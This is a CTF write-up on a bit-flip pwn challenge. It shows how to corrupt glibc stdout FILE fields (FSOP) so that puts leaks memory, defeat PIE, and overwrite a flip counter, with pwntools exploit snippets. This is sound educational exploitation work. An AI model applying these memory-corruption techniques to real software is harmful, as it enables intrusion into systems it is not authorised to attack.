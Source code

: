 I did not solve this challenge but I decided to look back at it because I wanted to learn FSOP and overwriting exit funcs with one gadget.

## Challenge

This challenge provides us with 4 bit flips, and our addresses are calculated at an offset from `_IO_2_1_stdin_`. The path to a solution, as with many other bit flip challenges, is to first get infinite bit flips for arbitrary write. The bit flip counter is stored in the base program’s bss, but PIE is enabled. Our goal should be to leak the base address before our 4th bit flip so that we can overwrite the counter. The flip being relative to stdin hints that we will need some form of leak-oriented FSOP. (https://enzo.run/posts/lactf2024/#flipma)

```
stdout = 0xd20
write_base = stdout + 0x20
read_end = stdout + 0x10
```

First we will calculate the location of `_IO_2_1_stdin_` and its fields.

```
sla(b"a: ", "9")
sla(b"b: ", "9")
```

For this to work, we also need to make sure the _IO_CURRENTLY_PUTTING flag is set, and I initially thought we needed to use a bit flip on this, but just initializing stdout with an additional puts before the flips also works.

![image](https://github.com/user-attachments/assets/5da04128-6251-4532-99b4-1b853b01c373)

Next, we need to find a suitable location to leak the elf address. Using the search command in pwndbg, we can see there are 2 addresses in libc that contain the bytes of our elf section.

![image](https://github.com/user-attachments/assets/25c45ff4-9e6d-4f5b-8690-b90f8936ee96)

Unbuffered file streams hold libc addresses to themselves in the buffer fields.

![image](https://github.com/user-attachments/assets/5622ca66-3003-45b0-921e-33b93118e6c0)

The idea is to flip a bit in stdout->write_base `0x00007fd8a201a723` to become `0x00007fd8a2018723`. We can see that `0x7fd8a2018f4a 0xa4200000562941ac` will be located between the stdout->write_base and stdout->write_ptr.

but the file write function called from puts will treat the stream as buffered as long as there is a difference between _IO_write_base and _IO_write_ptr. This will cause the write function to print out memory from libc between those two addresses.

### Recap

To force flush the buffer with its contents:

- Ensure the _IO_CURRENTLY_PUTTING flag is set
- We need to set stdout->read_end = stdout->write_base
- Ensure stdout->write_ptr = stdout->write_end

So we will need to:

- Give an invalid index to make the program call puts with error message
- Change stdout->read_end and stdout->write_base to a location right before our leak location

```py
# _IO_write_base
sla(b"a: ", str(write_base+1))
sla(b"b: ", "5")

# _IO_read_end
sla(b"a: ", str(read_end+1))
sla(b"b: ", "5")
```

![image](https://github.com/user-attachments/assets/6829df7e-2dac-49aa-a274-27bc3c8d18ba)

After running the script above, we can see now in our IO File struct, our target is located between write_base and write_ptr.

```py
sla(b"a: ", "9")
sla(b"b: ", "9")

data = p.recvuntil(b"we're flipping bits, not burgers", timeout=1)
if len(data) < 100:
  print("failed")
  exit(1)

diff = 0x7f0c55badf4a - 0x00007f0c55bad723
elf_leak = u64(data[diff-2:diff+6])
exe.address = elf_leak - (0x55ff52d83020 - 0x55ff52d7f000)
li(f"exe addr @ {hex(exe.address)}")
```

![image](https://github.com/user-attachments/assets/ea0f0745-5cdb-45e4-a98e-669f0feeaecf)

We can find the offset of our leak by subtracting the leak location with the write_base.

```py
print(len(str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"])))
print(hex(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))

## Make flip to big number
sla(b"a: ", str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))
sla(b"b: ", "7")
```

![image](https://github.com/user-attachments/assets/428f0589-5f67-48c2-82e9-cbe7f4ac4124)

We have a lot more flips now.
